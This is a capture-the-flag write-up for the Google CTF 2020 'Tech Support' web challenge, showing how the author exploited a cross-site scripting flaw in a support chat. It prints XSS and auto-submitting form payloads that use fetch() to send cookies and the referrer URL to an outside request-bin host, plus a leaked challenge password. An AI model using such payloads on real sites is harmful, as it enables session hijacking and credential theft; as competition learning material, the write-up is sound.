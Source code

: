 # Tech Support

**Problem Description:**

> Try chatting with tech support about getting a flag.<br>
>
> Note: We have received multiple reports of exploits not working  remotely, but we triple checked and concluded that the bot is working properly.<br>
>
> [https://typeselfsub.web.ctfcompetition.com/](https://typeselfsub.web.ctfcompetition.com/)

## Solution

**Note:** I solved this challenge through an easier unintended way. I recommend people read the intended solution [here](https://github.com/0xParrot/writeups/tree/master/GoogleCtfQuals2020/web/techsupport) and/or view the [author's exploit](https://github.com/google/google-ctf/blob/master/2020/quals/web-typeselfsub/exploit.txt) instead of the following.

Since there were no attachments provided, I went ahead and visited [https://typeselfsub.web.ctfcompetition.com/](https://typeselfsub.web.ctfcompetition.com/): ![home](./images/home.png)

Both the about and home page were uninteresting, so I went ahead and made myself an account. A few new menu items appeared:

![profile](./images/profile.png)

**Note:** A self-xss is possible using the address field, and is used in the intended solution.

`Flag` looked enticing, so I took a look at it:

![noflag](./images/noflag.png)

I realized that I should probably be stealing the credentials of the chat user, and decided to go ahead and have a chat:

![reason](./images/reason.png)

I noticed a few interesting things at this point:

- The reason box was obviously xss-able

- Both me and the chat user made a request to my request-bin

- The chat user didn't send any cookies

- The chat bot request came from another sub-domain: https://typeselfsub-support.web.ctfcompetition.com

At this point, I pointlessly spammed a few different payloads, ie:

```html
<form action="https://typeselfsub.web.ctfcompetition.com/me" method="POST">
    <input type="hidden" name="address" value="<img src='x' onerror='fetch(`https://9c8ad81240abdfba6d0c857a17954395.m.pipedream.net/${document.cookie}`)' />" />
</form>
<img src="x" onerror="document.forms[0].submit()" />
```

None of them really got me anywhere, they would seem to work on my end, but the chat user's address didn't seem to change. Eventually, I tried the following:

```html
<img src="x" onerror="fetch(`https://9c8ad81240abdfba6d0c857a17954395.m.pipedream.net/${document.referrer}`)"/>
```

It must have been my lucky day, cause I saw the following:

![luck](./images/luck.png)

With a suspicious looking URL like:

```
https://typeselfsub.web.ctfcompetition.com/asofdiyboxzdfasdfyryryryccc?password=j9as7ya7a3636ncvx&reason=<img src="x" onerror="fetch(`https://9c8ad81240abdfba6d0c857a17954395.m.pipedream.net/${document.referrer}`)"/>&username=mike
```

I couldn't resist taking a visit:

![uh](./images/uh.png)

Nothing appeared to change much, but I decided to visit `/flag`:

![flag](./images/flag.png)

Guess I got lucky! :smile: